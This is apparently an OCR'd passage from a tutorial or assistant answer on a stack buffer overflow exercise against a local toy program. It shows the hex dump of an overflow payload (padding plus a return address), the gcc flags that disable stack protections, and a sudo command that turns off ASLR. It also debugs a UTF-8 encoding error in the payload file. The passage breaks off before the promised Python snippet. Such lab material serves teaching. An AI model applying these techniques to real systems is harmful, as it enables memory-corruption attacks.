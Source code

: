 
### Verification

You can verify the contents with:

bash

xxd input.txt

It should show something like:

text

00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: d611 4000 0000 0000                      ..@.....

### Important Notes

1. This assumes you compiled with:
    
    bash
    
    gcc -fno-stack-protector -z execstack -no-pie stack_smash.c -o stack_smash
    
2. If ASLR is enabled (default on most systems), you might need to disable it:
    
    bash
    
    echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    
3. Run the program with:
    
    bash
    
    ./stack_smash
    

If successful, you should see the "🎉 Exploit successful!" message instead of "Goodbye!".

00000000: 4141 4141 4141 4141 4141 4141 4141 4141 AAAAAAAAAAAAAAAA 00000010: 4141 4141 4141 4141 4141 4141 4141 4141 AAAAAAAAAAAAAAAA 00000020: 4141 4141 4141 4141 4141 4141 4141 4141 AAAAAAAAAAAAAAAA 00000030: 4141 4141 4141 4141 4141 4141 4141 4141 AAAAAAAAAAAAAAAA 00000040: 4141 4141 4141 4141 c396 1140 0000 0000 AAAAAAAA...@.... 00000050: 000a

It looks like there might be an encoding issue with your `input.txt` file. The address `0x4011d6` is being interpreted as UTF-8 characters (`c3 96`) rather than raw bytes, which won't work for the exploit.

## Correct Way to Create input.txt

Here's how to properly create the file with raw bytes:

### Using Python (recommended)

bash
